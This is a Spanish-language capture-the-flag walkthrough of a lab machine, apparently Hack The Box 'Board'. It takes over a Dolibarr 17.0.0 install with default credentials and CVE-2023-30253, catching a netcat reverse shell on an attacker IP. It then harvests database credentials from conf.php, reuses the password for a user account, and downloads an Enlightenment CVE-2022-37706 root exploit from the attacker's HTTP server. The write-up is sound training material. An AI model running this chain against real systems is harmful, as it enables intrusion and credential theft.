

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.11 -oN escaneo
```


Vemos que tiene el puerto 80 con un servicio apache, esto nos indica que está corriendo una web. Vamos a ver que esconde.


Una vez tenemos la web, vamos a realizar un fuzzing de esta para ver si podemos encontrar alguna pista por donde poder tirar.
```
gobuster dir -u http://10.10.11.11 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
```


Vemos que no ha encontrado nada, ahora vamos a ralizar un fuzzing de subdominios para per si nos mustra algo aparte.
```
ffuf -w ../../../../Downloads/subdomains-top1million-110000.txt -u http://board.htb/ -H 'Host: FUZZ.board.htb' -mc 200,302 -fl 518
```


Ahora que ya tenemos el subdominio, vamos a ver que esconde.


Vemos que nos dice el nombre de la plataforma y la versión, `Dolibarr 17.0.0`. Tras buscar en google el usuario y la contraseña por defecto, he encontrado que es `admin` y `admin`. Seguidamente he buscado si teneia alguna vulnerabilidad esta versión y he encontrado un CVE y un exploit.
```
CVE-2023-30253

Link exploit:
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```

Una vez no tenemos localizado, vamos a clonar el repositorio.
```
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```


Una vez lo hemos clonado, vamos a explotar la vulnerabilidad. En una terminal nos pondremos a la escucha por un puerto.
```
nc -lnvp 6969
```


En otra terminal vamos a ejecutar el exploit tal y como nos indica el repositorio.
```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.90 6969
```


Tras enumerar bastante rato todo el sistema operativo, he encontrado un archivo llamado conf.php en la ruta `/var/www/html/crm.board.htb/htdocs/conf` que nos muestra las claves de un servicio mysql.
```
user: dolibarrowner
password: serverfun2$2023!!
```


Ahora vamos a entrar en el servicio mysql.
```
mysql -D dolibarr -u dolibarrowner -p
password: serverfun2$2023!!
```


Una vez estamos dentro del servicio mysql, vamos a buscar una tabla que empieze con el prefijo `llx_`como nos mostraba en la información.
```
use dolibarr;
show tables;
```


Me ha llamado la atencion la tabla `llx_user`, así que vamos a dumpera el contenido.
```
select login, pass_encoding, pass, pass_encripted from llx_user;
```


Vemos que hay una contraseña para la base de datos y la del admin, la vamos a cojer la de la base de datos.
```
su larisa
password: serverfun2$2023!!
```


Ahora vamos a buscar binarios que podemos explotar para llegar al usuario root.
```
find / -perm -u=s -type f 2>/dev/null
```


Vemos que el binario `enlightenment` lo podemos explotar ya que tiene una vulnerabilidad registrada.
```
CVE-2022-37706

Linx exploit:
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
```

Clonamos el repositorio.
```
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
```


Una vez lo tenemos en nuestro equipo lo vamos a compartir en la máquina víctima para porderlo ejecutar.
```
máquina atacante:
python3 -m http.server 80
```


```
máquina víctima
wget http://10.10.14.90/exploit.sh
```


Ahora que tenemos el exploit, le daremos permisios de ejecución y lo ejecutaremos.
```
chmod +x exploit.sh
```


```
./exploit.sh
```


Una vez somos root, vamos a encontrar la flag que está en la carpeta `/root`.
